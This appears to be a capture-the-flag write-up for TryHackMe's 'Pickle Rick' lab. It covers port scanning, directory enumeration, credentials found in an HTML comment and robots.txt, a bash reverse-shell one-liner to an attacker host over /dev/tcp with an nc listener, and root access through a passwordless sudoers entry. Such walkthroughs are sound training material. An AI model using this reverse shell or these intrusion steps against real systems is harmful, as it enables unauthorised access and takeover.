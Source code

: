 # [Pickle Rick [easy]](https://tryhackme.com/room/picklerick)

# Recon

```
>>> nmap -sC -sV 10.10.14.40              
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-01 14:15 CET
Nmap scan report for 10.10.14.40
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 92:fd:10:c8:93:d1:c6:e8:00:68:08:39:ce:d4:47:20 (RSA)
|   256 97:ca:19:8e:99:72:f7:ac:c5:eb:c0:3b:62:8b:1b:6d (ECDSA)
|_  256 95:47:0f:4d:d8:6a:4d:75:3c:5c:56:7a:2c:0a:85:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
```

## port 80
![alt text](https://i.imgur.com/QybQPPO.png)

Looking at the source code we can see this comment:
```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
So we know that the username is `R1ckRul3s`.

## dir enum

```
>>> gobuster  -u http://10.10.14.40/  -w wordlists/SecLists/Discovery/Web-Content/common.txt -x php,html,html

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.14.40/
[+] Threads      : 10
[+] Wordlist     : wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,html
[+] Timeout      : 10s
=====================================================
2024/02/01 14:21:59 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess.html (Status: 403)
/.htpasswd.html (Status: 403)
/assets (Status: 301)
/denied.php (Status: 302)
/index.html (Status: 200)
/index.html (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/server-status (Status: 403)
=====================================================
2024/02/01 14:22:59 Finished
=====================================================
```

`login.php` seems interesting let's look at it:

![alt text](https://i.imgur.com/Up3xywf.png)

we know the username but not the password.

After some search I have found something interesting on `http://IP/robots.txt`:

```
Wubbalubbadubdub
```
Trying to use it as a password we can login as R1ckRul3s

![alt text](https://i.imgur.com/skafLpU.png)

Looks like we have a webshell, let's create a [reverseshell](https://hypothetical.me/post/reverse-shell-in-bash/).

On you're machine:
```
nc -lvnp 1235
```
on the web shell:
```
bash -c 'bash -i >& /dev/tcp/yourIP/1235 0>&1'
```

```
nc -lvnp 1235
Listening on 0.0.0.0 1235
Connection received on 10.10.14.40 33080
bash: cannot set terminal process group (1342): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-14-40:/var/www/html$ 
```
Bingo, we are in.

# PrivEsc

Well, their is no privilege escalation because `www-data` don't have any password and is a sudoer so basically with just a `sudo su` we can be root :/

```
www-data@ip-10-10-14-40:/var/www/html$ sudo su
sudo su
id
uid=0(root) gid=0(root) groups=0(root)
```

looking at `/etc/sudoers` we can see this:
```
# User privilege specification
root	ALL=(ALL:ALL) ALL
www-data                ALL=(ALL) NOPASSWD: ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL
```

![alt-text](https://i.imgflip.com/8ec1nx.gif)
